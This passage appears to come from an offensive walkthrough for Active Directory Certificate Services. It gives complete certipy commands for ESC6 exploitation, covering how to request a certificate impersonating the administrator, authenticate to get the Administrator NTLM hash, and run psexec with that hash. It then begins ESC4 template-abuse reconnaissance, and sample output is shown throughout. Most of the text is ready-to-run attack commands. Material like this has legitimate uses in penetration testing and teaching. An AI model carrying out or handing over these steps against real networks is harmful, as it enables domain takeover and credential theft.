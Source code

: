
**Step 2: Request Certificate Using ANY Template**

```bash
# Use default "User" template (always available)
certipy req -u 'user@corp.local' -p 'Password123' \
    -ca 'CORP-DC01-CA' \
    -template 'User' \
    -upn 'administrator@corp.local' \
    -dc-ip 192.168.1.10

# Output:
# [+] Got certificate with UPN 'administrator@corp.local'
# [*] Saved certificate to 'administrator.pfx'
```

**Why this works:**
- ESC6 flag overrides template restrictions
- Even though "User" template doesn't allow SAN, CA flag makes it possible

---

**Step 3: Authenticate (Same as ESC1)**

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.1.10

# Output: Administrator NTLM hash
```

---

**Step 4: Exploit (Same as ESC1)**

```bash
psexec.py -hashes ':NTLM_HASH' 'administrator@192.168.1.10'
```

**Total Time:** ~2 minutes (same as ESC1)

---

### Step 18: ESC4 Exploitation - Template Modification

**ESC4 = You have WriteDacl/WriteProperty on a certificate template**

**Impact:** Can modify template to make it ESC1-vulnerable, then exploit

---

#### Prerequisite Check:

```bash
certipy find -u 'user@corp.local' -p 'Password123' \
    -dc-ip 192.168.1.10 \
    -vulnerable

# Look for:
# Template: SafeTemplate
#   [!] Vulnerabilities
#       ESC4: 'CORP\\IT-USERS' has dangerous permissions (WriteProperty)
```

---